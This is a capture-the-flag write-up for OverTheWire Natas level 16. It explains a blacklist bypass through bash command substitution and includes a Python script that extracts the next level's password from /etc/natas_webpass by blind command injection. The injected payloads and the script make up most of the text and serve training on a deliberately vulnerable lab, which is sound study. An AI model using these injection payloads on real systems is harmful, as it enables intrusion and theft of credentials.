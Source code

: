 # Natas Level 16

Access data:

    username: natas16
    password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

Connect to the service using basic HTTP auth by replacing the credentials in the link:
    
    http://*USERNAME*:*FLAG*@*USERNAME*.natas.labs.overthewire.org/

We had similar challenges earlier, but now there is filtering for special characters that make it harder to execute arbitrary commands. However, they are using a blacklist, which is rarely a good idea. For example, _$_ and _()_ are still allowed which makes [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) possible.

    grep -i \"$key\" dictionary.txt

We control the unfiltered $key input.

It can be exploited performing another blind injection attack. We can use another (inner) grep command with a regular expression to query for the password within _/etc/natas_webpass/natas17_ char by char if we combine it with command substitution.

Example:

    grep -i $(grep ^a /etc/natas_webpass/natas17) dictionary.txt


 We can differentiate two cases:

1. If our guess for the current char was correct (pw begins with _a_), the password is returned. The outer grep becomes this:

        grep -i "*PASSWORD*" dictionary.txt

So it will search for the password within dictionary.txt (which will return nothing)

2. Our guess was incorrect. Outer grep becomes this:

        grep -i "" dictionary.txt

This will dump out the whole dictionary.

A script like the following can exploit this leakage of sensitive information and disclose the flag.

```python
    import requests, string
    username = "natas16"
    password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
    
    possibleCharacters = list(string.ascii_letters + string.digits) #possible flag characters are letters and digits.
    resultFlag = "" 
    characterCounter = 0
    while(len(resultFlag) < 32):

        
        current_challenge = resultFlag + possibleCharacters[characterCounter]

        #Idea for needle: If we are right with our current guess (pw begins with ^current_challenge), pw is returned. This means the outer grep will search for the pw in the dictionary and find nothing (empty response). If we are wrong, outer grep will search for "" in dictionary, dumping it out completely.
        needle = f"$(grep ^{current_challenge} /etc/natas_webpass/natas17)" 
        
        print("Testing: " + current_challenge)
        url = f"http://{username}:{password}@{username}.natas.labs.overthewire.org/?needle={needle}&submit=Search"
        resp = requests.get(url)
        #print(resp.text)
        if("Input contains an illegal character!" in resp.text):
            print("Illegal character: " + current_challenge)
            break
        if("<pre>" in resp.text):
            matches = resp.text.split("<pre>")[1]
            matches = matches.split("</pre>")[0].strip()
            
            if(not matches): #If there was NO output, this means our guess was correct because the outer grep searches for the pw in dictionary.txt and finds nothing
                print("match!")
                resultFlag = current_challenge
                characterCounter = 0
            else: #If there was output, our guess was wrong, the outer grep just dumps out the dictionary.txt
                characterCounter +=1 
                

    print("Flag: " + resultFlag)
```

<details>
  <summary>Solution</summary>
  Flag: 
</details>